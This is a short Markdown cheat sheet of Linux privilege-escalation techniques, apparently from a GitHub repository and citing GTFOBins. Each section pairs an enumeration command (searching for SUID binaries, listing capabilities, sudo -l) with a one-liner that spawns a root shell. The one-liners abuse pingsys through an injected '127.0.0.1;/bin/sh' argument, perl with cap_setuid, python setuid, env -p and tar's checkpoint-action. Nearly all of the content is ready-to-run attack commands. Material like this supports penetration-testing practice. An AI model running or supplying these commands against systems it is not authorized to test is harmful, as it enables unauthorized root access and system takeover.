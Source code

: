 # PINGSYS
```
find / -perm /4000 -type f 2>/dev/null           
```   
If pingsys
```
/usr/bin/pingsys '127.0.0.1;/bin/sh'
```

# PERL
https://gtfobins.github.io/gtfobins/perl/
```    
getcap -r / 2> /dev/null
```
If:
/usr/bin/perl = cap_setuid+ep
```
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
# PYTHON
https://gtfobins.github.io/gtfobins/python/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/python
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
# ENV
https://gtfobins.github.io/gtfobins/env/#suid
```
find / -user root -perm /4000
```
If:
/usr/bin/env
```
/usr/bin/env /bin/sh -p
```
# TAR
https://gtfobins.github.io/gtfobins/tar/
```
sudo -l
```
If:
User ??? may run the following commands on ???: 

   (root) /bin/tar
```    
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
